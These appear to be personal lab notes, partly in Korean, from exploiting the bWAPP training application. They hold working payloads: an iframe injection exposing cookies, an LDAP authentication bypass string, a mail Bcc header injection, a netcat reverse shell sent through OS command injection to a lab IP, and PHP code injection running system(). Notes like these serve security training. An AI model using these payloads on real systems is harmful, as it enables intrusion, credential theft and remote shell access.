 sudo vi iframe_hack.php / bug
	`<html>
	`<head>
	`<h1>test</h1>
	`<script>alert(document.cookie);</script>
	`</head>
	`</html>
	
iframei.php?ParamUrl=robots.txt"`></iframe><iframe frameborder="0" src="iframe_hack.php" width=0 height=0></iframe>&ParamWidth=0&ParamHeight=0
## LDAP Connection Setting
### security : low
Login : bee@bwapp.local
Password : 1234
Server : bWAPP
Base DN : DC=bwapp,DC=local
	Invalid credentials or invalid server

Login : bee@bwapp.local)(&))
burp suite
	function clear 
		clear_yes
ldap_connect.php?clear=yes
	Setting cleared successfully : LDAP 인증 우회
## Mail Header Injection(SMTP)
### security : low
Name: ddd
Email: test@testmail.com
Remarks : trstyrr

Name : test
Email : bwapp@mailinator.com%0aBcc:1@teset.com, 2@test.com
	참조를 통해 메일 전송
Remarks : test

## OS Command Injection
### security : low
DNS lookup : ;ls, pwd 가능
nc -lvnp 5555
;nc 192.168.56.102 5555 -e /bin/bash
### security : medium
; 를 공백으로 대체
;ls, ;pwd 못함
## OS Command Injection - Blind
### security : low
;nc 192.168.56.102 5555 -e /bin/bash
## PHP Code Injection
### security : low
message 클릭 -> php?message=test
php?message=test2;system("ls -l")
	php코드 입력하면 명령어 실행됨.
	nc 으로 원격접속까지 가능
## Server-Side Includes(SSI) Injection
### security : low